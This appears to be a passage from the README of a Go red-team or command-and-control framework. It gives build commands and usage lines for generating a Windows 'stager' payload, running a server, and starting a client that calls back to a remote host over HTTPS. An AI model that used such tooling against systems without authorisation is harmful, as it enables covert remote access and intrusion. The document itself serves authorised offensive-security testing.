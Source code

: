 ```bash
go run main.go --mode client \
    --callback https://your-server.com:8443
```

---

## Makefile Commands (Optional)

The Makefile provides convenience commands for building:

```bash
# Build binary
make build

# Build for specific platforms
make build-windows    # Windows executable
make build-linux      # Linux executable
make build-darwin     # macOS executable
make build-all        # All platforms

# Clean build artifacts
make clean

# Run tests
make test

# Install to $GOPATH/bin
make install
```

**Note**: Make is **optional**. You can use `go run` or `go build` directly.

---

## Build vs Run

### Option 1: Run Directly (No Build Required)

```bash
# Generate payload
go run main.go --mode generate --payload stager --os windows

# Start server
go run main.go --mode server

# Connect client
go run main.go --mode client --callback https://server.com:8443
```

### Option 2: Build First (Faster)

```bash
# Build binary
make build
# or
go build -o bin/redteam-framework .

# Use binary
./bin/redteam-framework --mode generate --payload stager --os windows
./bin/redteam-framework --mode server
./bin/redteam-framework --mode client --callback https://server.com:8443
```
